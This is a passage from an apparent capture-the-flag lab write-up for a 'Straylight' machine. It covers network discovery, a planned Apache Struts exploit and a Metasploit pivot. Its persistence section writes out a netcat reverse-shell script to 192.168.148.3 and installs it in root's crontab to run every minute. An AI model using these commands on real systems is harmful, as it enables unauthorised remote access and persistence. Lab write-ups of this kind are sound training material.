 >The engineering team couldn't strss enough how risky that is, opening up a Super AI to remote access on the Freeside network. It is within out internal admin network, but still, it should be off the network completely. For the sake of humanity, user access should only be allowed via the physical console...who knows what this thing can do.  
>  
>Anyways, we've deployed the war file on tomcat as ordered - located here:  
>  
>/struts2_2.3.15.1-showcase  
>  
>It's ready for the devs to customize to her liking...I'm stating the obvious, but make sure to secure this thing.  
>  
>Regards,  
>  
>Bob Laugh  
>Turing Systems Engineer II  
>Freeside//Straylight//Ops5  
>  
>Nice. Probably the second machine will be an easy struts exploit.   
  
root@straylight:~# ip a  
>...  
>2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000  
>    inet 192.168.111.6/24 brd 192.168.111.255 scope global enp0s3  
>    ...  
>3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000  
>    inet 192.168.148.5/24 brd 192.168.148.255 scope global enp0s8  
>...  
  
### PERSISTENCY  
  
This was just the first part of the lab, so we want to make sure that we don't lose the root shell. We don't want to be doing the first steps too many times.   
I'm going to set the lamest script in the crontab to gain persistency ^^  
  
root@straylight:/root# echo '#!/bin/bash' >> /tmp/sorry  
root@straylight:/root# echo '/bin/nc 192.168.148.3 4445 -e /bin/sh' >> /tmp/sorry  
root@straylight:/root# cat /tmp/sorry  
>#!/bin/bash  
>/bin/nc 192.168.148.3 4445 -e /bin/sh  
root@straylight:/root# chmod +x /tmp/sorry  
root@straylight:/root# echo "* * * * * /tmp/sorry" >> /var/spool/cron/crontabs/root  
root@straylight:/root# chown root:crontab /var/spool/cron/crontabs/root  
root@straylight:/root# chmod 600 /var/spool/cron/crontabs/root  
root@straylight:/root# crontab -l  
>* * * * * /tmp/sorry  
  
###PIVOTING  
  
In order to pivot easily, I like to set up a socks proxy and route the traffic to the second machine through the first one. With metasploit is very easy to do and let us run any command through it.  
  
